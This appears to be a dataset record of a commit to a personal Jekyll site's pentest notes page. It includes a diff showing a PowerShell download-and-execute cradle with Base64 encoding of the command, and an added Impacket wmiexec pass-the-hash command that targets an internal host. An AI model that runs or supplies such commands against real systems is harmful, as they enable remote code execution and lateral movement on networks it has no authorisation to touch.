

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 5586 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -320,3 +323,10 @@ $string = "iex (New-Object Net.WebClient).DownloadString('http://<webServer>:808
 $encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))
 echo $encodedcommand
 ```
+
+#### Impacket
+
+Impacket is a collection of Python classes for working with network protocols
+```cpp
+proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes e353da88f9c4331504f70d471f0f9cb1:REDACTED a.user@10.10.120.1
+```
````
Also changed, not shown: other parts of notes.md (+3 -0 lines).
